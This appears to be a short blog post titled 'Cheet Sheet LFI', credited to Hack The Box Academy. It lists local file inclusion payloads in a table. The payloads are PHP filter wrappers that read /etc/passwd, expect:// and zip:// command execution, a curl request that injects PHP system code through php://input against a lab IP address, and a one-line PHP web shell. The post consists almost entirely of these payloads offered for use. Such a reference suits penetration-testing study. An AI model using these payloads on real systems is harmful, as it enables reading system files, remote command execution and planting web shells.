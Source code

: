 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**